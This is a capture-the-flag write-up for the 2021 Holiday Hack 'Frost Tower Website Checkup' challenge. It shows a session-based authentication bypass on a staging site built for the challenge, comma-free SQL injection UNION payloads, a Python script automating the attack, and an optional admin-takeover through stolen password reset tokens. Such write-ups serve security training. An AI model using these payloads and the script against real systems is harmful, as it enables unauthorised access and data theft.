







# Frost Tower Website Checkup

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star:<br/>
**Direct link**: [staging website](https://staging.jackfrosttower.com/)<br/>
**Terminal hint**: [The Elf C0de](../hints/h12.md)


## Objective

!!! question "Request"
    Investigate [Frost Tower's website for security issues](https://staging.jackfrosttower.com/). [This source code will be useful in your analysis](https://download.holidayhackchallenge.com/2021/frosttower-web.zip). In Jack Frost's TODO list, what job position does Jack plan to offer Santa? Ribb Bonbowford, in Santa's dining room, may have some pointers for you.

??? quote "Ingreta Tude"
    Hey there! I'm Ingreta Tude. I really don't like the direction Jack Frost is leading us.<br/>
    He seems obsessed with beating Santa and taking over the holiday season. It just doesn't seem right.<br/>
    Why can't we work together with Santa and the elves instead of trying to beat them?<br/>
    But, I do have an Objective for you. We're getting ready to launch a new website for Frost Tower, and the big guy has charged me with making sure it's secure.


## Hints

??? hint "SQL Injection with Source"
    When you have the source code, API documentation becomes [tremendously](https://www.npmjs.com/package/express-session) [valuable](https://github.com/mysqljs/mysql).


## Solution

This challenge is an example of a [white-box](https://en.wikipedia.org/wiki/White-box_testing) pentest and solving it requires finding and exploiting 2 vulnerabilities in the [source code](../artifacts/objectives/o12/frosttower-web.zip). First we need to bypass authentication, followed by an SQL injection attack against a vulnerable URL endpoint. [Ribb Bonbowford's hint](../hints/h12.md) literally tells us which 2 Node.js modules we need to focus on for each step, [`express-session`](https://www.npmjs.com/package/express-session) and [`mysql`](https://github.com/mysqljs/mysql).


!!! note "Understanding the application logic"
    Having access to the source code gives us full insight into the web application's internal logic and understanding the application flow is an important part of solving the challenge. While we could submit the form on the [Frost Tower website](https://staging.jackfrosttower.com/) to determine that the actual site is located at [`/testsite`](https://staging.jackfrosttower.com/testsite), the same information can also be found by analyzing the [`server.js`](../artifacts/objectives/o12/server.js) source code, which we'll be doing throughout this write-up.

    


### Bypassing authentication

When a user successfully logs in using a POST request to `/login`, the `session.uniqueID` variable is assigned a value, enabling access to backend endpoints like `/dashboard` which wrap their logic in an `if (session.uniqueID) {}` statement.

There's a flaw in the `/postcontact` endpoint logic, however. Using the [contact form](https://staging.jackfrosttower.com/contact) form to submit the same email address more than once will result in the SQL query on line 141 to return the email that's already in the [*uniquecontact*](../artifacts/objectives/o12/encontact_db.sql) table and assign the submitted email to `session.uniqueID` (line 151), fullfilling the requirement set by endpoints like `/dashboard`.



Submitting the same email twice via the [contact form](https://staging.jackfrosttower.com/contact) and accessing the [`/dashboard`](https://staging.jackfrosttower.com/dashboard) endpoint confirms the vulnerability.

{ class=border }


### SQL injection

Now that the web application considers us authenticated we can take a closer look at all the [`server.js`](../artifacts/objectives/o12/server.js) code that's wrapped in `if (session.uniqueID) {}` statements. This reveals an additional vulnerability in the `/detail` endpoint, which contains logic to parse a comma-separated list of IDs in order to build a database query that will retrieve multiple *uniquecontact* records at once. On line 207 the code contains a `raw()` method which, per the `mysql` [API documentation](https://github.com/mysqljs/mysql#mysql), *"will skip all escaping functions when used, so be careful when passing in unvalidated input"*. Honestly, this sounds more like a hint than a warning. :smile:

??? info "Escaping query values"
    The `mysql` Node.js library provides [several methods](https://github.com/mysqljs/mysql#escaping-query-values) like `mysql.escape()`, `connection.escape()`, and `pool.escape()` which can be used to escape user-provided data and help prevent SQL injection attacks. In addition, `?` characters can also be used as placeholders for any values that should be escaped.

    However, the `mysql.raw()` method will leave the data un-touched even when it's used in combination with a `?` placeholder. In other words, the `escape()` method used in the `tempCont.escape(m.raw(ids[i]));` statement will have no impact on the object returned by the `raw()` method.

{ class=border }

By using an [SQL injection UNION attack](https://portswigger.net/web-security/sql-injection/union-attacks) we can combine the results from the *uniquecontact* `SELECT` statement on line 198 with whatever we'd like to retrieve from another table, as long as each individual query returns the same number of columns and their data types are compatible. As a request for ID 0 using [`/detail/0`](https://staging.jackfrosttower.com/detail/0) returns no records, the result of a `UNION` statement will only contain the data from the other table. This keeps things nice and clean.

There is one caveat though. Commas will be stripped out as the input string is converted to a list of IDs by the `split()` method on line 204, meaning our SQL query can't contain that particular character. Luckily for us, others already [solved that problem](https://book.hacktricks.xyz/pentesting-web/sql-injection#no-commas-bypass) and `SELECT 1,2,3` can be rewritten as `SELECT * FROM (SELECT 1)F1 JOIN (SELECT 2)F2 JOIN (SELECT 3)F3`.

While it might be tempting to go for admin access, the goal is to find Jack's TODO list, so craft a query that lists all the tables. In the example below, the `table_name` query statement is at the same column index as the `full_name` column in the *uniquecontact* table, which will result in the [`detail.ejs`](../artifacts/objectives/o12/detail.ejs) template rendering it front and center using `<h1><%= encontact.full_name %></h1>`.

=== ":material-needle: SQL injection input string"
    ```sql
    0,0 union select * from 
    ((select 1)F1 join (select table_name from information_schema.tables where table_schema='encontact')F2 join 
    (select 3)F3 join (select 4)F4 join (select 5)F5 join (select 6)F6 join (select 7)F7);--
    ```

=== ":material-database-search: Code-generated SQL query"
    ```sql
    SELECT * FROM uniquecontact WHERE id=0 OR id=0 union select * from 
    ((select 1)F1 join (select table_name from information_schema.tables where table_schema='encontact')F2 join 
    (select 3)F3 join (select 4)F4 join (select 5)F5 join (select 6)F6 join (select 7)F7);-- OR id=?
    ```

Using the SQLi string above as input for the [`/detail`](https://staging.jackfrosttower.com/detail/0%2C0%20union%20select%20%2A%20from%20%28%28select%201%29F1%20join%20%28select%20table_name%20from%20information_schema.tables%20where%20table_schema%3D%27encontact%27%29F2%20join%20%28select%203%29F3%20join%20%28select%204%29F4%20join%20%28select%205%29F5%20join%20%28select%206%29F6%20join%20%28select%207%29F7%29%3B--) endpoint gives us the information we're looking for.

{ class=border }

The same technique can now be repeated to retrieve the column information from the *todo* table (i.e., `id`, `note`, `completed`), followed by the notes themselves. To help automate these final steps we can create a [script](../tools/objectives/o12/query_db.py) that takes our desired SQL query as input, inserts it into the SQLi UNION attack string, creates an authenticated session by submitting the [contact form](https://staging.jackfrosttower.com/contact) twice using the same email, and then performs a GET request against the `/detail` endpoint using the crafted SQLi string as input.

??? example "query_db.py"
    ```python linenums="1"
    #!/usr/bin/env python
    import click
    import requests
    from bs4 import BeautifulSoup


    def authenticate(sess: requests.Session) -> bool:
        """Submit the same contact form data twice to authenticate."""
        authenticated = False

        for _ in range(2):
            # Get the CSRF token
            url = 'https://staging.jackfrosttower.com/contact'
            resp = sess.get(url)
            soup = BeautifulSoup(resp.text, features="html.parser")
            csrf_token = soup.find('input', {'name': '_csrf'})['value']

            # Submit the form
            url = 'https://staging.jackfrosttower.com/postcontact'
            headers = {'Content-Type': 'application/x-www-form-urlencoded'}
            data = {
                '_csrf': csrf_token,
                'fullname': 'name',
                'email': 'me@email.com',
                'phone': '1234567890',
                'country': 'Belgium',
                'submit': 'SAVE',
            }
            resp = sess.post(url, headers=headers, data=data)

        soup = BeautifulSoup(resp.text, features="html.parser")

        if "Email Already Exists" in soup.find('p', {'class': 'success'}):
            authenticated = True
            print("[+] Authentication successful")

        return authenticated


    @click.command()
    @click.option('-q', '--query', required=True, help='SQL select statement to run.')
    def cli(query: str):
        url = "https://staging.jackfrosttower.com/detail"
        sess = requests.Session()
        sqli = (
            "0,0 union select * from ((select 1)F1 join ({})F2 join "
            "(select 3)F3 join (select 4)F4 join (select 5)F5 join "
            "(select 6)F6 join (select 7)F7);--"
        )

        if authenticate(sess):
            # Perform an SQL injection attack against the /detail endpoint
            resp = sess.get(f"{url}/{sqli.format(query)}")

            if resp.status_code == 200:
                if "<h1>" in resp.text:
                    print("[+] Results:")
                    soup = BeautifulSoup(resp.text, features="html.parser")
                    results = soup.find_all("h1")

                    for idx, result in enumerate(results):
                        print(f"{idx + 1}. {result.text.strip()}")
                else:
                    print("[+] No results found.")
            else:
                print("[-] Something went wrong :/")
        else:
            print("[-] Authentication failure")


    if __name__ == '__main__':
    cli()
    ```



!!! done "Answer"
    clerk

!!! note "Adding an administrator account"
    While not necessary for solving the challenge, we can also leverage the same SQL injection vulnerability to add a new administrator account. Start by using the below string to perform an SQLi attack against the [`/detail`](https://staging.jackfrosttower.com/detail/0%2C0%20union%20select%20%2A%20from%20%28%28select%201%29F1%20join%20%28select%20email%20from%20users%20where%20user_status%3D1%29F2%20join%20%28select%203%29F3%20join%20%28select%204%29F4%20join%20%28select%205%29F5%20join%20%28select%206%29F6%20join%20%28select%207%29F7%29%3B--) endpoint. This will retrieve all emails from the *users* table for full administrator accounts.

    ```sql title="Get full admin emails"
    0,0 union select * from 
    ((select 1)F1 join (select email from users where user_status=1)F2 join 
    (select 3)F3 join (select 4)F4 join (select 5)F5 join (select 6)F6 join (select 7)F7);--
    ```

    Next, use one of the email addresses (e.g., *root@localhost*) to initiate a [password reset](https://staging.jackfrosttower.com/forgotpass). Once the reset request has been submitted, use the string below to perform another SQLi attack against the [`/detail`](https://staging.jackfrosttower.com/detail/0%2C0%20union%20select%20%2A%20from%20%28%28select%201%29F1%20join%20%28select%20token%20from%20users%20where%20email%3D%27root%40localhost%27%29F2%20join%20%28select%203%29F3%20join%20%28select%204%29F4%20join%20%28select%205%29F5%20join%20%28select%206%29F6%20join%20%28select%207%29F7%29%3B--) endpoint to retrieve the password reset `token` for the selected account.

    ```sql title="Retrieve reset token"
    0,0 union select * from 
    ((select 1)F1 join (select token from users where email='root@localhost')F2 join 
    (select 3)F3 join (select 4)F4 join (select 5)F5 join (select 6)F6 join (select 7)F7);--
    ``` 

    Making a request to [`/forgotpass/token/<token>`](https://staging.jackfrosttower.com/orgotpass/token/<token>) will allow us to set a new password for the *root@localhost* account and log in. Our full administrator status now also allows us to delete contact entries, access the user list, and create additional administrator accounts for ourselves and all our friends.

    { class=border }
